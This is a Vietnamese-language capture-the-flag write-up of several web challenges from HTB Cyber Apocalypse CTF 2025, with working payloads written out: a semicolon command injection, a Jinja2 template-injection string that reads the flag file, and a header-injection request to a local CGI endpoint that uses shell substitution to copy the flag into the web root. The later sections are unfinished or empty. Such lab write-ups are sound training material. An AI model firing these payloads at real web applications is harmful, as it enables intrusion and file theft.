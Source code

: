 ```yaml
---
title: "Cyber Apocalypse CTF 2025: Tales from Eldoria"
tags: ["web"]
---
```


# Cyber Apocalypse CTF 2025: Tales from Eldoria

# Mục Lục

**Cyber Apocalypse CTF 2025: Tales from Eldoria**

- [Whispers of the Moonbeam -> CMDI](#HTB-1)
- [Trial by Fire -> SSTI](#HTB-2)
- [Cyber Attack -> SSRF](#HTB-3)
- [Eldoria Panel](#HTB-4)
- [Eldoria Realms](#HTB-5)
- [Aurors Archive](#HTB-6)

## HTB 1

![image](https://hackmd.io/_uploads/ryOiFq-TJg.png)
Thử thêm `;` vào
![image](https://hackmd.io/_uploads/HynJ55WaJg.png)
**FLAG** : `HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_b3872c798c16be5a94c8b3498ca76f9e}`

## HTB 2

![image](https://hackmd.io/_uploads/Hkw8c9-pyx.png)
Hãy check thử 1 vài payload đơn giản
![image](https://hackmd.io/_uploads/S1u-sc-6Jl.png)
Tuy nhiên lưu ý rằng phần mà nó render là trang này
![image](https://hackmd.io/_uploads/ByuFQibaJe.png)
![image](https://hackmd.io/_uploads/Hk-INjWTJx.png)
![image](https://hackmd.io/_uploads/H1rzVibakl.png)
giờ xem nó render thế nào thì phải qua api `@web.route('/battle-report', methods=['POST'])`
![image](https://hackmd.io/_uploads/BJrOSoZp1e.png)

```python==
damage_dealt={{ request.__class__._load_form_data.__globals__.__builtins__.open("flag.txt").read() }}
```

[Document](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html)

**FLAG**:`HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_d703a81708e499d0a9c8864989b22d2d}`

## HTB 3

mất khá nhiềy thời gian thì mình chỉ có 1 hướng đó là XSS đến
Đây là đoạn code bị lỗi chăng
![image](https://hackmd.io/_uploads/BJMiWfo3yx.png)
![image](https://hackmd.io/_uploads/SkkCWfj2ye.png)
Nó chỉ cho loopback ip
![image](https://hackmd.io/_uploads/S1CQ7Mjhyg.png)
Tuy nhiên để bypass qua reg của nó thì khá khó
Nên mình nghĩ đến hàm tương tự đó là attack ip
![image](https://hackmd.io/_uploads/ByNgFZp2Jg.png)
Tuy nhiên lại setting ip để nó có thể enable nút này
![image](https://hackmd.io/_uploads/HJKtFb6nkg.png)
Làm thế nào để set ip đây
![image](https://hackmd.io/_uploads/rklYPbp3kx.png)
:::success
Sau tất cả thì mình nghĩ là sẽ thay đổi ip của mình để trigger được phần attack ip sau đó command injection
:::
:::danger

- Vẫn ý tưởng cũ là fake local nhưng sau đó copy flag ra ngoài
- Như ở trên ta có hai con đường để tương tác với os đó là attack domain và attack ip tuy nhiên attack domain bị filter khá chặt và chắc chắn sẽ rơi vào dòng này

![image](https://hackmd.io/_uploads/Sykdj_GpJg.png)
Vậy muốn đi tiếp thì chỉ có cách lợi dụng biến `$name` .

- Còn attack ip thì đã bị disable . Ít nhất phải check ip local mới enable được
- Vậy ta sẽ lợi dụng biến **$name** này như 1 **browser** để **render** 1 gói tín **request** khác

![image](https://hackmd.io/_uploads/r1e0adM6yg.png)
[From orange](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#%E2%9C%94%EF%B8%8F-2-1-2-Disclose-PHP-Source-Code)
bắt trước theo và gắn vào `name`
Như vậy đã có thể gửi request đến với local
Làm thế nào để tương tác với os  
![image](https://hackmd.io/_uploads/B191GFf6kx.png)
Đi sâu vào hàm `ip_address`
![image](https://hackmd.io/_uploads/SJJrzFfpkg.png)
![image](https://hackmd.io/_uploads/S1fpzFz6Jx.png)
Như vậy ý tướng sẽ là `1::%` + `payload`
![image](https://hackmd.io/_uploads/SJqvYYMTyl.png)
ý tưởng sẽ copy nó ra ngoài thư mục root
đây là payload
LƯU Ý:

- dùng ` để lấy ra kết quả của shell trên **URL**

```python==
http://
Location:/ooo
Content-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip?target=::1%`cd+..;cd+..;cd+..;cp+flag*+$(printf+"/var/www/html/flagHTB.txt")`&name=meo

HTTP/1.1
```

đây là giá trị của biến `$name`
thử encode url để xem
![image](https://hackmd.io/_uploads/rJhLItz6kx.png)
Không được . Có thể do các kí tự bên trong như `;` ; `/` thử thay nó bằng Mã ASCII
`;` -> `3B`
`/` -> `2F`
PAYLOAD cuối cùng

```python=
http://
Location:/ooo
Content-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip?target=::1%`cd+..3Bcd+..3Bcd+..3Bcp+flag*+$(printf+"2Fvar2Fwww2Fhtml2FflagHTB.txt")`&name=meo

HTTP/1.1

```

sau dó url encode nó lại
![image](https://hackmd.io/_uploads/ryXzKKzpkx.png)
![image](https://hackmd.io/_uploads/BkSotFzpyg.png)
**FLAG:**`HTB{h4ndl1n6_m4l4k4r5_f0rc35}`
:::

## HTB 4

![image](https://hackmd.io/_uploads/BJzzzI6hkl.png)
![image](https://hackmd.io/_uploads/r1CJEIpnJl.png)
![image](https://hackmd.io/_uploads/HyJ4NUpn1l.png)
Tuy nhiên nó đã bị filter bới `escapeshellarg()`
Không khả thi
`companions` thì có vẻ không có gì
![image](https://hackmd.io/_uploads/SJUAwUT3yg.png)
Nếu mà là SQLi thì update được user và passwd của admin chăng
càng hợp lí hơn khi mà trong sr có trang của admin
tuy nhiên
![image](https://hackmd.io/_uploads/BJgytK63yl.png)
![image](https://hackmd.io/_uploads/ryDAjt631l.png)
Dựa vào SQLi để fake những thông tin trên sao ????
Mục đích giờ là đi vào admin

## HTB 5

## HTB 6

##
